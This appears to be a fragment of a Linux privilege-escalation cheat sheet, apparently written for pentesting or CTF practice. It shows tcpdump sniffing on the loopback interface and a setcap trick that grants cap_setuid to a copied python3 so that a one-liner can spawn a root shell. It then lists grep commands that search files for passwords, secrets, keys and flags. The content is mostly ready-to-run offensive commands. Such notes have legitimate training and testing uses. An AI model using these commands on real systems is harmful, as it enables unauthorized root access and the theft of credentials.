 ### cap_net_raw

```bash
# Tcpdump - we can sniff sensitive information by running tcpdump for a while.
tcpdump -i lo -A
```

<br />

## Set Capabilities

```sh
setcap cap_setuid+ep /path/to/binary
```

If you found the **setcap** with **SUID**, you can manipulate commands like Python.

```sh
cp /usr/bin/python3 /home/<current-user>/python3
setcap cap_setuid+ep /home/<current-user>/python3
```

Then get a root shell.

```sh
/home/<current-user>/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

<br />

## Sensitive Contents in Files

```sh
# -r: recursive
# -n: line number
# -i: ignore case
grep -rni root ./
grep -rni password ./
grep -rni passwd ./
grep -rni db_password ./
grep -rni db_passwd ./

# -e: OR Searching
grep -re admin -re root -re credential -re password ./
grep -re secret -re key ./

# -v: Exclude
grep -rni password -v node_modules ./

# -E: regex
grep -riE 'flag{.*}' ./

# IP Address Searching
grep -rE -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" ./

# -h: no output filenames
grep -h root ./
```
